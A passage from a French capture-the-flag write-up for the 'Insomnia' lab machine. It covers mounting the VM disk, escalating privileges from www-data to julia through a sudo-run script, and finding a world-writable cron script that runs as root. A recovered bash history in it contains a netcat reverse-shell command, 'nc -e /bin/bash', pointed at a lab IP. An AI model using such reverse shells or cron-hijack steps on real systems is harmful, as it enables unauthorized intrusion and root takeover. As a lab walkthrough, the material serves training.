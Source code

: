 Avec ces infos je peux d'abord monter le VDI puis monter l'un des volumes présent à l'intérieur (ici `vol0` correspond à la partition racine) :

```bash
mkdir disks
sudo vboximg-mount --vm Insomnia -i "/home/devloop/VirtualBox VMs/Insomnia/Insomnia-disk001.vdi" --rw --root disks/
sudo mount disks/vol0 /mnt/
# faire le ménage ici
sudo umount /mnt
sudo umount disks
```

L'opération a consisté à supprimer une partie des fichiers de logs.

## Pas le temps pour les flashbacks

On reprend le fil de notre exploitation :

```shellsession
www-data@insomnia:/var/www/html$ cp start.sh start_backup.start
www-data@insomnia:/var/www/html$ echo bash > start.sh 
www-data@insomnia:/var/www/html$ sudo -u julia /bin/bash /var/www/html/start.sh
julia@insomnia:/var/www/html$ id
uid=1000(julia) gid=1000(julia) groups=1000(julia),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
```

L'utilisatrice a quelques commandes dans son historique bash. Malheureusement il s'agit plus d'un oubli de l'auteur du CTF q'un indice volontaire :

```shellsession
cd /var/cron
ls
nano chech.sh
export TERM=xterm
nano check.sh
echo "nc -e /bin/bash 10.0.2.13 4444" >> check.sh
exit
```

Ce fichier `check.sh` nous est accessible (et modifiable) mais comment est-il lancé ?

```shellsession
julia@insomnia:/var/cron$ ls -al check.sh 
-rwxrwxrwx 1 root root 153 Dec 21  2020 check.sh
julia@insomnia:/var/cron$ cat check.sh 
#!/bin/bash
status=$(systemctl is-active insomnia.service)
if [ "$status" == "active"  ]; then
   echo "OK"
else
   systemctl start  insomnia.service
fi
julia@insomnia:/var/cron$ cat /etc/systemd/system/insomnia.service 
[Service]
Type=simple
User=www-data
WorkingDirectory=/var/www/html
ExecStart=/bin/bash /var/www/html/start.sh

[Install]
WantedBy=multi-user.target
julia@insomnia:/var/cron$ tail -2  /etc/crontab 
*  *    * * *   root    /bin/bash /var/cron/check.sh
#
```
